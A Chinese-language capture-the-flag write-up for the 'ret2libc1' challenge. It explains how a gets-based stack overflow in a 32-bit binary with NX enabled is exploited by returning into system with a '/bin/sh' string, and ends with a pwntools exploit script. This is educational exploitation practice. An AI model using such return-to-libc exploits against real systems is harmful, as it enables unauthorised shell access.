




# ret2libc1

首先，我们先检查一下程序的安全保护



源程序位32位，开启了NX保护。下面对程序进行反编译以确定漏洞位置：



可以看到在执行gets函数的时候出现了栈溢出。此外，利用ropgadget，我们可以查看是否有/bin/sh存在



确实存在，我们再查找一下是否有system函数存在。



那么，我们直接返回该处，执行system函数。payload如下：

```python
from pwn import *

sh = process('./ret2libc1')
# /bin/sh地址
binsh_addr = 0x08048720
# system函数地址
system_plt = 0x08048460

payload = flat([b'A'*112,],system_plt,0xcafeefac,binsh_addr)

sh.sendline(payload)
sh.interactive()
 
```

